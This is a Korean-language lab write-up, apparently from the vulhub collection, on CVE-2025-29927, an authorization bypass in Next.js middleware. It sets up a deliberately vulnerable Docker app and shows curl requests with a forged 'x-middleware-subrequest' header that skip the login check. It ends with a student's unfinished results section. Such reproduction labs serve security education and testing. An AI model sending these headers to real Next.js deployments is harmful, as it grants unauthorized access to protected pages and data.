

# Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```


취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```



보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 실습 결과 (yeojin-206)
###정상요청
```bash
curl -i http://localhost:3000/admin
#307 Temporary Redirect

curl -i http://localhost:3000/%2fadmin 
307 Temporary Redirect

curl -i http://localhost:3000/admin/. 
308 Permanent Redirect
```
###비정상요청
